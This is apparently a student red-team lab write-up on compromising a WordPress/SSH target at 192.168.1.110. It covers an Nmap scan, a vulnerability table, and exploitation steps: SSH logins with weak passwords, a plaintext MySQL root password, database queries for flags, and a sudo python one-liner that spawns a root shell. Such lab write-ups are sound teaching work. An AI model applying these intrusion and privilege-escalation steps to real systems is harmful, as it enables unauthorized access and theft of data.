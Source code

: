 [Power Point](Offensive%20Final%20Project%20Presentation%20Template%20.pdf)

# Final-Project
![](Images/Network%20Toplogy.png)

# Red Team: Summary of Operations
# Table of Contents
 - Exposed Services
 - Critical Vulnerabilities
 - Exploitation
# Exposed Services
- Fill out the information below:
  - Nmap scan results for each machine reveal the below services and OS details: nmap -sV 192.168.1.110  command to Scan Target 1
  
 ![](Images/Nmap%20Scan.png)
 
- This scan identifies the services below as potential points of entry:
### Target 1:
  - SSH
  - HTTP
  - rpcbind
  - netbios-ssn
  
  ![](Images/Nmap%20Port%20%26%20Services.png)



- The following vulnerabilities were identified on each target:
### Target 1:


| Vulnerability        | Description                                                                                                                                                      | Impact                              | CVE or Standard |
|----------------------|------------------------------------------------------------------------------------------------------------------------------------------------------------------|-------------------------------------|-----------------|
| Port Scanning        | Use Nmap to detect open ports                                                                                                                                    | Show vulnerable ports and services. | Standard        |
| Enumerate WordPress  | Exhibit different behavior for a failed login attempt depending on whether the user account exists, which allows remote  attackers to enumerate valid usernames. | Enumerate User Accounts             | CVE-2009-2335   |
| Weak Password        | Using easily guess passwords                                                                                                                                     | Gain access to the machine          | Standard        |
| Privilege Escalation | when running with Python 3.6 or later,  allows remote authenticated users to execute  arbitrary code, leading to privilege escalation.                           | Gain root access to the machine     | CVE-2020-29396  |

![](Images/WPScan.png)


# Exploitation

- Fill out the details below. Include screenshots where possible:
- The Red Team was able to penetrate Target 1 and retrieve the following confidential data:
### Target 1:

- Exploit Used:
  - weak password
  - ssh michael@192.168.1.110
  - cd /var/www/
  - grep -RE flag



                                      flag1: {b9bbcb33e11b80be759c4e844862482d}
 
 
![](Images/Flag%201%20%26%202.png) 

- Exploit Used:
  - weak password
  - ssh michael@192.168.1.110
  - cd /var/www/html/wordpress
  - mysql -u root -p
  - R@v3enSecurity
  - SELECT * FROM wp_post
 
                                      flag2: {fc3fd58dcdad9ab23faca6e9a36e581c}


![](Images/Flag%201%20%26%202.png)

- Exploit Used:
  - weak password
  - ssh michael@192.168.1.110
  - mysql -u root -p
  - R@v3enSecurity
  - use wordpress;
  - SELECT * FROM wp_posts;

                                          

                                      flag3: {afc01ab56b50591e7dccf93122770cd2} 


 ![](Images/Flag%203.png)
 
 - Exploit Use:
   - Privilege escalation
   - ssh steven@192.168.1.110
   - sudo python -c ‘import os;os.system(“/bin/sh”)’ 
   - cd ../..
   - cat flag4                  
 

                                       flag4: {715dea6c055b9fe3337544932f2941ce}
 
 
![](Images/Flag%204.png)
                                      
                   
